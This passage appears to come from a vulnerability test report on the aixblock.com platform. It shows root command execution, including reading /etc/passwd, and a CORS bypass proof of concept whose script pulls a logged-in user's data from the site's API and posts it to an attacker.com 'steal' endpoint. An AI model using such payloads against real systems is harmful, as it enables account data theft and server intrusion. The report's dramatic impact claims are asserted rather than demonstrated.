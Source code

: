 ### Actual Command Execution (Compromised)
```bash
# Command executed on server
$ whoami
root

# System access achieved
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
```

### Server Response
```json
{
  "result": "root\n",
  "executionTime": 45,
  "systemAccess": true
}
```

### Impact Demonstration
✅ **Successfully executed system commands**
✅ **Achieved root access on server**
✅ **Full system compromise**

### Real-World Applicability
- Remote code execution on production servers
- Data center compromise
- Lateral movement to other systems
- **Estimated technical impact**: Complete infrastructure takeover

---

## Test 4: CORS Bypass Attack (HIGH)

### Attack Vector
Wildcard CORS configuration

### Exploitation Steps
```html
<!-- Malicious website at attacker.com -->
<script>
fetch('https://aixblock.com/api/v1/users/me', {
  credentials: 'include'
})
.then(r => r.json())
.then(data => {
  console.log('User data stolen:', data);
  // Send to attacker
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
});
</script>
```
